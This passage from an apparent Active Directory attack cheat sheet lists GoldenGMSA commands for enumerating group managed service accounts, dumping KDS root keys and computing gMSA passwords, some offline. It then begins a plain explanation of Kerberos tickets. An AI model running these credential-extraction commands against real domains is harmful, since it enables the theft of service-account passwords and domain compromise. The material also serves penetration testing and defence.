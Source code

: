 * Using [GoldenGMSA](https://github.com/Semperis/GoldenGMSA)
    ```ps1
    # Enumerate all gMSAs
    GoldenGMSA.exe gmsainfo
    # Query for a specific gMSA
    GoldenGMSA.exe gmsainfo --sid S-1-5-21-1437000690-1664695696-1586295871-1112

    # Dump all KDS Root Keys
    GoldenGMSA.exe kdsinfo
    # Dump a specific KDS Root Key
    GoldenGMSA.exe kdsinfo --guid 46e5b8b9-ca57-01e6-e8b9-fbb267e4adeb

    # Compute gMSA password
    # --sid <gMSA SID>: SID of the gMSA (required)
    # --kdskey <Base64-encoded blob>: Base64 encoded KDS Root Key
    # --pwdid <Base64-encoded blob>: Base64 of msds-ManagedPasswordID attribute value
    GoldenGMSA.exe compute --sid S-1-5-21-1437000690-1664695696-1586295871-1112 # requires privileged access to the domain
    GoldenGMSA.exe compute --sid S-1-5-21-1437000690-1664695696-1586295871-1112 --kdskey AQAAALm45UZXyuYB[...]G2/M= # requires LDAP access
    GoldenGMSA.exe compute --sid S-1-5-21-1437000690-1664695696-1586295871-1112 --kdskey AQAAALm45U[...]SM0R7djG2/M= --pwdid AQAAA[..]AAA # Offline mode
    ```

## Kerberos Tickets

Tickets are used to grant access to network resources. A ticket is a data structure that contains information about the user's identity, the network service or resource being accessed, and the permissions or privileges associated with that resource. Kerberos tickets have a limited lifetime and expire after a set period of time, typically 8 to 12 hours.

There are two types of tickets in Kerberos:

* **Ticket Granting Ticket** (TGT): The TGT is obtained by the user during the initial authentication process. It is used to request additional service tickets without requiring the user to re-enter their credentials. The TGT contains the user's identity, a timestamp, and an encryption of the user's secret key.

